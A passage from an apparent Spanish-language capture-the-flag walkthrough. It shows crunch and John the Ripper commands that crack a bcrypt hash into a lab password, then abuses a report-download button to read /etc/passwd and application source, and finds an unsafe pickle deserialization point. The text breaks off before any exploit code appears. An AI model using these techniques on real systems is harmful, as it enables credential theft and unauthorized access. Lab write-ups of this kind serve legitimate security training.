 ```css
crunch 22 22 0123456789 -t c.ross@buffered_@@@@@@ > wordlist
```

luego metemos el hash en un archivo y lo crackeamos con john:

```css
john -w=./wordlist hash
```

```css
❯ john -w=./wordlist hash
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
c.ross@buffered_001337 (christine)
1g 0:00:00:23 DONE (2025-02-19 04:11) 0.04187g/s 56.53p/s 56.53c/s 56.53C/s c.ross@buffered_001333..c.ross@buffered_001350
Use the "--show" option to display all of the cracked passwords reliably
Session completed
~ ❯
```

y ya tenemos credenciales:

```css
christine:c.ross@buffered_001337
```

### NiceAdmin

Una vez logeados, podremos ver que hay un botón llamado "download report", el cual si lo presionamos nos descarga un archivo llamado "logins.txt". Si revisamos el código con las devtools del navegador, podremos ver que selecciona el archivo como "logins.txt" y podemos probar en cambiarlo por otro archivo, como por ejemplo `/etc/passwd`:

![Report](images/buffered/report.png)

una vez descargado el archivo, lo leemos y podremos ver que efectivamente descargamos el archivo `passwd`, lo que significa que podriamos descargar cualquier archivo al cual no tengamos acceso como wilson pero si como christine (ya que christine es el usuario que ejecuta la web). En este caso, el único archivo que nos es de utilidad es `/home/christine/.site/APP_3411/app.py`, ya que como vimos en los procesos ese es la misma página que se encuentra en el puerto 5555. Una vez descargado, podremos visualizar el código de python de la página, pero no hay nada muy llamativo mas que al final, ya que vemos que usa `pickle` (el cual tambien importa al principio del archivo) para deserializar datos en base64 pasados con el parametro "mydata". Luego de buscar en [HackTricks](https://book.hacktricks.wiki/en/pentesting-web/deserialization/index.html?highlight=pickle#pickle), encuentro el siguiente código que aprovecha la deserializacion de pickle:
